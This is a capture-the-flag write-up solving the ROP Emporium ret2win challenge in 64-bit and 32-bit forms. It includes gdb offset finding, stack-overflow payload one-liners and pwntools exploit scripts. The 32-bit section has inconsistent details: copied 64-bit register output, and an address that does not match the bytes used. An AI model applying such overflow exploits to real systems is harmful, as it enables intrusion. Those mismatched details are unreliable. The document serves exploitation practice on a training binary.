



# Ret2Win

[ret2Win]: https://ropemporium.com/challenge/ret2win.html

## 64Bit

let's find how many shit we can put in the buffer before the overflow:

```bash
gdb -q ret2win 
gdb-peda$ pattern_create 200                                                                                          
'AAA%AAsAABAA$AAnAACAAAA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
	
gdb-peda$ run                                                                                                          

# we need the value that goes in RSP
	RSP: 0x7fffffffdfd8 ("AA0AAFAAbAA1AAGA\nm\341\367\377\177")

gdb-peda$ pattern_offset AA0AAFAAbAA1AAGA                                                                             
	AA0AAFAAbAA1AAGA found at offset: 40
```

now we know that we have 40 bytes of thrash.

Debugging we find the function `ret2win` e we can see that it print the flag. 





we add to the `payload` the address of `ret2win`,which will end up in the `RIP` register.

Pat attention to the fact that in `64 bit` architectures registers have 8 bytes, and the notation is `Little Endian`, so the address of the function from `0x00400756` becomes `5607400000000000`

```bash
python -c 'print "A" * 40 + "\x56\x07\x40\x00\x00\x00\x00\x00"' | ./ret2win
```

### pwntools

```python
from pwn import *

elf = context.binary = ELF('ret2win')
io = process(elf.path) 

payload = b'A'*40 + p64(0x0000000000400756) # an alternative is 'p64(elf.symbols.ret2win)'

io.sendline(payload)
print(io.recvall())
```

## 32bit

```bash
gdb -q ret2win32 
gdb-peda$ pattern_create 200                                                                                          
'AAA%AAsAABAA$AAnAACAAAA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
	
gdb-peda$ run                                                                                                          

# we need the value thath goes into esp
	esp: 0x7fffffffdfd8 ("AA0AAFAAbAA1AAGA\nm\341\367\377\177")

gdb-peda$ pattern_offset AA0AAFAAbAA1AAGA                                                                             
	AA0AAFAAbAA1AAGA found at offset: 48
```

we know that 48-4=44 thrash characters and the remaining 4 goes into esp, while in `64` we do not need to subtract 4 byes because it pops before putting last 4 bytes into `RIP`

Get `ret2win` address 



Note that at `32 bit` registers has 4 bytes, and that there is the `Little Endian` notation, so the address of the function from `0x08860408` became `2c860408`

```bash
python -c 'print "A"*44 + "\x2c\x86\x04\x08" ' | ./ret2win32
```

### pwntools

```python
from pwn import *

elf = context.binary = ELF('ret2win32')
io = process(elf.path)

payload = b'A'*44 + p32(elf.symbols.ret2win)

io.sendline(payload)
print(io.recvall())
```

